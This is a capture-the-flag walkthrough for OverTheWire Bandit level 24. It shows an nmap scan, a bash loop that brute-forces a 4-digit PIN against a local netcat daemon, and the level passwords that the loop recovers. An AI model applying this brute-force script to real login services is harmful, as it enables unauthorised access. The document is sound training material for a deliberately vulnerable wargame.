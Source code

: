 # BANDIT LEVEL 24 --> LEVEL 25

```
http://overthewire.org/wargames/bandit/bandit25.html
```

### Level Goal

A daemon is listening on port `30002` and will give you the password for bandit25 if given
the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve
the pincode except by going through all of the 10000 combinations, called brute-forcing.

### SOLUTION

First let's get the password we need..

```
bandit24@bandit:~$ cat /etc/bandit_pass/bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

And we validate there is something running against port `30002`..

```
bandit24@bandit:~$ nmap -p 30002 localhost

Starting Nmap 7.40 ( https://nmap.org ) at 2018-10-24 01:48 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
PORT      STATE SERVICE
30002/tcp open  pago-services2

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

So let's try this out..

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
```

.. and now we script!

```
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001" | nc localhost 30002  -w1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

```
bandit24@bandit:/tmp/foofoo$ cat loop.sh
#! /bin/bash

i=$1
# ensure $i is between 0 <=i <= 9
if [ "$i" -lt 0 ] || [ "$i" -gt 9 ]; then
  echo "USAGE: $0 <int>"
  exit 0
fi

for j in `seq 0 9`; do
  for k in `seq 0 9`; do
    for l in `seq 0 9`; do
      output=$(echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i$j$k$l" | nc localhost 30002 -w1)
      echo $output
      echo $output | grep Wrong >/dev/null
      if [ $? -eq 0 ]; then
        echo "$i$j$k$l: FAILED.."
      else
        echo "$i$j$k$l: SUCCESS!"
      fi
    done
  done
done
bandit24@bandit:/tmp/foofoo$ for n in `seq 0 9`; do
> ./loop.sh $n > output$n.log 2>&1 &
> done
bandit24@bandit:/tmp/foofoo$ tail -f output0.log
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. Wrong! Please enter the correct pincode. Try again.
0000: FAILED..
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. Wrong! Please enter the correct pincode. Try again.
0001: FAILED..

<...>

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. Wrong! Please enter the correct pincode. Try again.
0377: FAILED..
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. Correct! The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG Exiting.
0378: SUCCESS!
```

Eventually we find the pin is `0378`.

```
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0378" | nc localhost 30002  -w1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
